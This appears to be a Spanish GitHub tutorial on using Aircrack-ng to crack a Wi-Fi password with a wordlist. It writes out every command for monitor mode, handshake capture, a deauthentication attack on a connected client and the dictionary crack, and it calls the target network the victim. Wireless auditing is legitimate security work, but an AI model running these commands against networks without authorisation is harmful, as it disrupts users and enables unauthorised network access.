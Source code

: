 # Guía de uso Aircrack-ng

<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Aircrack-ng es una suite de programas que nos permitirán realizar auditorías inalámbricas Wifi a routers y puntos de acceso Wifi. 

En esta Guía aprenderás a como realizar una auditoría a una red wifi con una lista de
contraseñas.

<br>

## Requisitos

* Kali Linux

* Tarjeta de Wifi con modo monitor

<br>

## USO
Lo primero será iniciar el modo monitor de nuestra tarjeta con airmon-ng. Se recomienda estar en usuario
root

```
iwconfig 
airmon-ng 
airmon-ng start wlan0 
airmon-ng check kill
```

<br>

![Informatica](Img/iwconfig.jpg)

<br>

Luego iniciamos el escaneo de redes wifi que hay a nuestro alrededor.

```
airodump-ng wlan0
```

<br>

![Informatica](Img/scan.jpg)

<br>

Ahora seleccionamos el canal de la red, luego agregamos un nombre para guardar el archivo de captura y por
último el BSSID de la red.

```
airodump-ng -c 6 -w auditoria-wifi --bssid 06:A1:51:9A:2F:2F wlan0
```

Como podemos observar solo 1 dispositivo está conectado a la red este dispositivo será la clave para poder
entrar a la red, lo primero que haremos será desconectar el dispositivo de la red. Primero seleccionamos el
número de veces que va a desautenticar el dispositivo luego seleccionamos el BSSID de la red y por último el
BSSID del dispositivo.

```
aireplay-ng -0 50 -a 06:A1:51:9A:2F:2F -c 2E:C7:CB:0E:98:C4 wlan0
```
<br>

![Informatica](Img/desconectar.jpg)

<br>

Ahora la fase final será usar nuestro archivo de captura y nuestra lista de contraseñas para poder saber la
contraseña de la red. Ingresamos primero la ubicación de la lista de contraseñas luego el BSSID del al red y
por último el archivo de captura.

```
aircrack-ng -w /root/Hacking/Diccionarios/wifi.txt -b 06:A1:51:9A:2F:2F auditoriawifi-
01.cap
```
<br>

![Informatica](Img/contraseña.jpg)

<br>

Como podemos ver hemos conseguido la contraseña de la red víctima, dependiendo la contraseña aircrackng
tardara en descifrar la contraseña de la red.